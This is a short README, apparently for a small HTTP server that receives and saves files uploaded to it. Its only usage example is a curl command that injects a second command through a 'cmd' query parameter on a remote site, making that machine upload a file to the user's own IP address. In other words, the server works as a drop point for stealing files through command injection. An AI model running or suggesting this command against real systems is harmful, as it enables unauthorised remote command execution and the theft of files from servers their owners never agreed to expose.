 # HTTPServer
HTTP server that can accept and save the archive file when it is sent over HTTP protocol

curl http ://site:port?cmd=curl+yourIP+--upload-file+your.file
